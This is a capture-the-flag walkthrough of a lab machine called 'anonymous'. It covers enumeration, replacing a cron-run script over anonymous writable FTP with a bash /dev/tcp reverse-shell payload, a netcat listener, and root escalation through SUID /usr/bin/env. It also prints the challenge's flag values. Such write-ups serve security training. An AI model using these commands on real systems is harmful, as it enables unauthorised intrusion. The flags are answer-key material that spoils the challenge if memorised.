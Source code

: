 ```yaml
---
sticker: emoji//1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 139  | smb     |
| 445  | smb     |

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.34.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-04-01T18:15:57+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
|   date: 2025-04-01T18:15:57
|_  start_date: N/A
```

# RECONNAISSANCE
---


We got FTP and SMB enabled on the machine, also, we got anonymous login enabled in FTP at first sight thanks to the scan, this may be enabled on smb too, let's check out FTP first:


![](images/Pasted%20image%2020250401131807.png)

We got a `scripts` directory, let's check it contents:

![](images/Pasted%20image%2020250401132437.png)

We got some scripts in it, let's look at them:


![](images/Pasted%20image%2020250401132655.png)



![](images/Pasted%20image%2020250401132708.png)



![](images/Pasted%20image%2020250401132719.png)


That `clean.sh` script seems interesting, let's keep it like that for now. We can proceed to analyze `SMB`, since the anonymous login may be enabled, we can view the contents of the shares:

```
smbclient -L \\\\10.10.235.71\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Let's check that `pics` share:

![](images/Pasted%20image%2020250401133112.png)

Both files are not interesting, if we try extracting the contents with `steghide`, we'll need a passphrase so, they're not useful, let's proceed with exploitation then.




# EXPLOITATION
---


We already know that the FTP protocol has got a script called `clean.sh`, interesting part about the script is that:

- The script checks `if [ $tmp_files=0 ]` (missing space around =). While syntactically incorrect, this is treated as a string comparison. However, the script is likely **triggered by a cron job** (since `removed_files.log` has many entries).

If we can modify the contents of `clean.sh`, we can upload a reverse shell and gain access to the machine, let's test this by doing the following:


1. Create a new `malicious_clean.sh` script with the following contents to trigger a reverse shell:

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

2. Replace the script with our malicious one:

```
ftp IP # Login with anonymous login
cd scripts
put malicious_clean.sh clean.sh
```

3. Set up the listener and wait for the connection:

```
nc -lvnp PORT
```


If we reproduce these steps, we can see the following in our listener:

![](images/Pasted%20image%2020250401133901.png)

We got a shell as `namelessone`, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step would be stabilizing our shell to move around the machine in a more comfortable way:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](images/Pasted%20image%2020250401134051.png)

We can read `user.txt` now:

```
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```

Now, in order to get root, we can use linpeas to check for any privesc vector:

![](images/Pasted%20image%2020250401134406.png)

For example, we are inside of the `sudo` group but since we do not know the password of `namelessone`, this is pretty much useless for now, if we keep looking at `linpeas` output, we can check this:

![](images/Pasted%20image%2020250401134512.png)

We got `SUID` for `/usr/bin/env`, let's check `gtfobins`:

![](images/Pasted%20image%2020250401134540.png)

So, we can do the following in order to get a root shell:

```
/usr/bin/env /bin/bash -p
```

![](images/Pasted%20image%2020250401134615.png)

There we go, we can finally read `root.txt` and end the challenge:

```
bash-4.4# cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

![](images/Pasted%20image%2020250401134709.png)



